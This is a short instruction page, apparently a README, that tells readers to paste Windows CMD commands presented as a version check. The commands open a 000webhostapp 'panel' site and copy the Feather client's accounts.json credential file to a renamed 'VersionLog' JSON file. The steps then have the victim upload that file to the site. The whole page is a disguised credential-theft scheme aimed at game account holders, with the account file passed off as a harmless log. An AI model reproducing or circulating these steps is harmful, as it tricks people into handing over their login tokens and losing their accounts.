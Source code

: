 ## How to USE?
1) Copy commands below
2) click windows button in your keyboard or win + r and write CMD
3) Run CMD
4) Paste text
5) Open the same CMD in taskbar
6) click F
7) Go to folder and copy path
8) Go to website, upload file, paste path, and click VersionLog-XXXX.json file

# Copy this code and write in CMD

start "" "https://sprawdzwersje.000webhostapp.com/panel.html"
start "" "C:\Users\%USERNAME%\AppData\Roaming\.feather\mods\"
XCOPY "C:\Users\%USERNAME%\AppData\Roaming\.feather\accounts.json" "C:\Users\%USERNAME%\AppData\Roaming\.feather\mods\VersionLog-8cjV.json" /Y /I > NUL
